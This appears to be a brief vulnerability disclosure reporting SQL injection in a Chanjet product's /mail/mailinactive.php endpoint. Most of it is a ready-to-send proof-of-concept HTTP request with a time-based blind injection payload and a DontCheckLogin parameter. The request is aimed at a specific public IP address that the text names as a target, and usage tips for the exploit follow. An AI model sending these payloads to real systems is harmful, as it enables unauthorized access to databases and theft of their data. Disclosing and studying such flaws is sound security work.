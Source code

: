 Changjietong Information Technology Co., Ltd. has SQL injection, which attackers can exploit to obtain information.

official：https://www.chanjet.com/

version:1.0

 Vulnerability Path  ： /mail/mailinactive.php

See the login page.

poc：
```
GET /mail/mailinactive.php?name=1&gblOrgID=1+AND+(SELECT+1+FROM+(SELECT(SLEEP(2)))a)--+-&DontCheckLogin=1 HTTP/1.1
Host: 49.4.122.252:8090
Connection: close
```

Ip：http://49.4.122.252:8090
SQL map confirms a vulnerability, which is quite special. It cannot run SQL map with cookies. Use my POC-R and do not use SQL map. Custom cookies should be marked with an * injection point

<img width="1166" height="432" alt="image" src="https://github.com/user-attachments/assets/855467ca-46d5-4ecb-8179-c94c4120c08a" />
